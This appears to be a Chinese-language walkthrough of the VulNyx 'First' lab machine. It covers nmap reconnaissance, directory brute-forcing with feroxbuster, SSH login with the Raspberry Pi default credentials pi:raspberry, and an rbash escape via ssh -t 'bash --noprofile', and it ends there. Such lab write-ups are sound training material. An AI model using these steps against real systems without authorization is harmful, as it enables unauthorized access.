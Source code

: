 # 环境

来自[vulnyx_First](https://vulnyx.com/#First)，利用(Raspberry)树莓派未修改默认密码，拿到shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240725120255370](image/image-20240725120255370.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.37
```

![image-20240725120346588](image/image-20240725120346588.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,4369 192.168.88.37
```

## 目录扫描

```bash
feroxbuster -u http://192.168.88.37 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image-20240725124620747](image/image-20240725124620747.png)

# web渗透

## 树莓派默认账号拿shell

访问http://192.168.88.37/tasklist

![image-20240725124809656](image/image-20240725124809656.png)

发现Raspberry(树莓派)，盲猜开发者可能没改默认密码，google查找raspberry的默认账号密码`pi:raspberry`

![image-20240725125218251](image/image-20240725125218251.png)

但是拿到的shell是rbash，受限

```bash
ssh pi@192.168.88.37 -t 'bash --noprofile'
```

